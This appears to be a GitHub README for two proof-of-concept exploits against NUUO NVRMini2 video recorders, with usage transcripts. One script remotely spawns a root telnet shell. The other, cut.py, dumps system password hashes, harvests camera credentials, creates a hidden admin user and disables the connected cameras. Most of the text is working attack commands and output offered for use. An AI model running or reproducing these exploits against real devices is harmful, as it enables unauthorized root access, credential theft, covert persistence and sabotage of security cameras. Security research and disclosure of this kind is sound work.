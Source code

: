 # NUUO NVRMini2
The two exploits in this repository were tested against the NUUO NVRMini2 versions:

* 03.07.0000.0011
* 03.08.0000.0005

The exploits use the same vulnerability. However, one opens up telnet to give the attacker root access and the other does quite a bit more.

## nvrmini2_enable_telnet.py
This exploit opens telnet up on the remote target. It currently depends on:

* requests

### Usage Example:

```sh
albinolobster@ubuntu:~$ telnet 172.20.10.52
Trying 172.20.10.52...
telnet: connect to address 172.20.10.52: Connection refused
telnet: Unable to connect to remote host
albinolobster@ubuntu:~$ python nvrmini2_enable_telnet.py 172.20.10.52 80
[+] Checking for a valid target...
[+] Valid target!
[+] Executing mount -t devpts devpts /dev/pts on 172.20.10.52:80...
[+] Executing /bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"& on 172.20.10.52:80...
[+] Success!
albinolobster@ubuntu:~$ telnet 172.20.10.52
Trying 172.20.10.52...
Connected to 172.20.10.52.
Escape character is '^]'.

root@test:/NUUO/bin# whoami                                                                                                                                                                      
root
```

## cut.py
This exploit grabs the credentials to the cameras that are connected to the NVR, creates a hidden admin user, and disconnects any cameras that are currently connected to the NVR. It currently depends on:

* requests
* pexpect

### Usage Example:

```sh
albinolobster@ubuntu:~$ python cut.py 172.20.10.52 80
	  ______               __     __ 
	 /      \             /  |   /  |
	/$$$$$$  | __    __  _$$ |_  $$ |
	$$ |  $$/ /  |  /  |/ $$   | $$ |
	$$ |      $$ |  $$ |$$$$$$/  $$ |
	$$ |   __ $$ |  $$ |  $$ | __$$/ 
	$$ \__/  |$$ \__$$ |  $$ |/  |__ 
	$$    $$/ $$    $$/   $$  $$//  |
	 $$$$$$/   $$$$$$/     $$$$/ $$/ 

	Tested on NVRMini2 03.07.0000.0011
	Tested on NVRMini2 03.08.0000.0005

[+] Executing mount -t devpts devpts /dev/pts on 172.20.10.52:80...
[+] Executing /bin/sh -c "/usr/sbin/telnetd -l /bin/bash -b 0.0.0.0"& on 172.20.10.52:80...
Entering telnet session...
[+] Searching for system users and password hashes...
	- root $1$vd3TecoS$VyBh4/IsumZkqFU.1wfrV.
	- admin $1$7/O5XJoc$FB42UFJPiUu0hYm4fXMg7.
[+] Target System Information
	- NVR Version: 03.08.0000.0005
	- NVR Release Date: 20180524
	- Kernel: 2.6.31.8
	- Architecture: armv5tel
[+] Searching for remote cameras and creds...
	[1] Generic RTSP @ 172.20.10.240:554 (admin:testpass0)
	[2] Generic RTSP @ 172.20.10.241:554 (admin:testpass1)
[+] Creating hidden admin user (cutv:iddqd)
[+] Logging in as admin user 'cutv'
[+] Login successful
[+] Disabling camera 1
[+] Disabling camera 2
[+] Complete!
```
